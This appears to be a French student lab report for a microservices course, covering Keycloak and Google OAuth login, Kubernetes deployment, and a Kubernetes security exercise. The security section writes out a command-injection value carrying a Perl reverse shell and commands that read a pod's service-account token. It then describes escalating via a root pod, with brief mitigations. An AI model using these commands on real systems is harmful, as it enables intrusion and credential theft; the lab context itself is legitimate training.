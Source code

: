 # Microservices2

Noms :

Fadia Allani
Angie Pineda

## TP1 : Service Web sécurisé

Pour le projet nous avons utilisé comme technologies java scrpit et react, pour la délégation d'autorisation et l'utilisation de l'api nous avons utilisé google. Pour la délégation d'autorisation nous avons utilisé un container docker avec keycloak.

Lorsque le projet est lancé et que l'on se rend sur la page d'accueil “localhost:5173/”, la première chose qui s'affiche est la page de connexion keycloak qui demande à l'utilisateur de se connecter, si un identifiant et un mot de passe valides sont saisis, un token est récupéré et il autorise la navigation sur le site web. En outre, il existe une api protégée par keycloak, et si le front-end doit accéder à cette ressource, il fera une requête du type :

```js
fetch('http://localhost:3000/protected', {
  headers: {
    Authorization: `Bearer ${keycloak.token}`
  }
})
```

Avec ce qui précède, le backend vérifie la demande et si le jeton est valide, il renvoie les données demandées, sinon il renvoie une erreur 401.

Une fois entrée, la page est redirigée vers la page de connexion dans laquelle se trouve un bouton permettant de se connecter avec Google. Lorsque l'on clique sur ce bouton, un appel est lancé au backend qui redirige la demande vers la page Google, où l'authentification de l'utilisateur est demandée et où il est ensuite demandé d'accepter les conditions générales d'utilisation. Avec les données ci-dessus, le backend appelle l'api google people où il demande des informations sur l'utilisateur (mail, nom et photo) qui sont récupérées par le frontend et affichées sur la page /info.


### Difficultés rencontrées.

**Google:** 

La configuration sur le site de google est confuse, car il y a beaucoup d'onglets, ce qui rend difficile de trouver la bonne page pour s'enregistrer, éditer et obtenir l'identifiant client pour l'application. Ensuite, pour la redirection des URI, il n'y a pas de documentation claire et il est donc difficile de l'intégrer. 

**Keycloak**

La configuration pour permettre l'authentification à partir de keycloak est confuse, car bien que la page donne un exemple d'utilisation avec javascript, elle n'indique pas clairement les termes, par exemple elle ne décrit pas la signification de realm, ce qui rend difficile la compréhension de ce que fait le code. Ensuite, comme dans le cas précédent, l'adresse des URLs n'est pas claire et nous avons eu des problèmes pour accéder à la page qui se lance de Keycloak. 

# Tp 1 Kubernetes Security

Nous avons commencé par créer un docker file pour chacun de nos services (frontend/backend) et nous avons ensuite mis à jour le docker-compose.yml 

![alt text](Screens/docker_compose.png)

Nous avons ensuite suivi toutes les étapes du tp jusqu'à l'étape du git compose push. 

Problème: Le push ne passe pas 

![alt text](Screens/Error-push.png)

Après avoir identifié et corrigé un problème d'indentation dans le fichier /etc/rancher/k3s/registries.yaml, nous avons réussi à pousser les images vers le registrey.

![alt text](Screens/frontend.png)

![alt text](Screens/backend.png)

Pour l'étape 4 du tp, nous avons commencé par créer un fichier myService.yaml regroupant les deux services frontend et backend

Problème: Après déploiement sur le cluster, nous n’avons pas pu accéder aux services. 

Message d’erreur rencontré lors de la tentative d’accès :

![alt text](Screens/Error.png)

Le message d’erreur indiquait que le domaine demandé n’était pas reconnu. Nous avons donc ajouté l’adresse frontend.infres.fr dans le fichier vite.config.js du frontend.

Après cette modification, les services sont accessibles et fonctionnent correctement : 

![alt text](Screens/ServiceOK.png)




















# TP Kubernetes Security_2
on est passé par [reverse shell ](https://www.revshells.com/) pour generer un  reverse shell perl.

```markdown
google.com; perl -e 'use Socket;$i="10.134.35.160";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


On a donc réussi à executer une commande à distance et on est maintenant dans un shell interactif à l'interieur du containeur mais pas en tant que root.        

# Find credentials: 
- ls /var/run/secrets/kubernetes.io/serviceaccount/
puis - cat /var/run/secrets/kubernetes.io/serviceaccount/token
pour afficher le token 


Une fois le token recupéré, on télécharge le binaire kubectl et on teste si on peut créer des pods avec ce token : YES 

![alt text](image.png)

## What could had been done to prevent this issue ?
- Approche Least Privilege lors de l’affectation des droits
- Désactiver le montage automatique du token dans les pods

# Escalate your privileges :

On crée un root pod qui utilise le même service account 

![alt text](root-pod.png)

## What could had been done to prevent this issue ?
Mettre en place des règles qui interdisent la création de pods avec ces paramètres risqués.

